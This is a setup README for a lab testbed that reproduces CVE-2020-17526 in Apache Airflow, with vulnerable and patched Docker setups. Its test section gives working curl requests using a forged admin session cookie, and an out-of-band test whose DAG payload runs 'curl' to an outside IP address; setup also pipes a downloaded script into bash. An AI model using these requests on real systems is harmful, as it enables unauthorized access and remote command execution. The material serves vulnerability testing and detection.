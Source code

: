 # requirements setup
spin up an `Ubuntu 22.04` fresh instance and log in as root.
```bash
apt update
apt install dos2unix
wget -q -O - "https://get.docker.com/" | dos2unix | bash
# clone the repo
# cd security-testbeds/apache/airflow/CVE-2020-17526
```
# setup Vulnerable instance
## Initialize the database
```bash
docker compose -f docker-compose-vulnerable.yml run airflow-init
```
## Start service
```bash
docker compose -f docker-compose-vulnerable.yml up -d
```
## test the exploit
### simple test
```bash
curl 'http://127.0.0.1:8080/admin/' -H 'Cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.ZgdmZA.GDwzAupY1c9AXYDbLRvjSiZCVw0'
```
in a successfull exploitation, you should not be redirected to login page. on the other hand, you should receive the list of DAGs.
### test with OOB
```bash
curl 'http://127.0.0.1:8080/admin/airflow/paused?is_paused=true&dag_id=example_trigger_target_dag' -X POST -H 'Cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.ZgdmZA.GDwzAupY1c9AXYDbLRvjSiZCVw0'
curl 'http://127.0.0.1:8080/admin/airflow/trigger?dag_id=example_trigger_target_dag&origin=%2Fadmin%2Fairflow%2Ftree%3Fdag_id%3Dexample_trigger_target_dag'  -X POST -H 'Cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.ZgdmZA.GDwzAupY1c9AXYDbLRvjSiZCVw0' --data-raw 'csrf_token=IjMwMzE3MTZhNmQwZDUzYmI1YTliZDVkZTU5OTU2MGUzMTgzMGY2ZTEi.Zgdpdw.W1SJwF614zKdcf6HhQRT65ZmOFI&dag_id=example_trigger_target_dag&origin=%2Fadmin%2Fairflow%2Ftree%3Fdag_id%3Dexample_trigger_target_dag&conf=%7B%22message%22%3A%22%60curl+95.217.16.117%3A1234%60%22%7D'
```
# setup secure instance
## Initialize the database
```bash
docker compose -f docker-compose-secure.yml run airflow-init
```
## Start service
```bash
docker compose -f docker-compose-secure.yml up -d
```

Ref:
https://github.com/vulhub/vulhub/tree/master/airflow/CVE-2020-17526
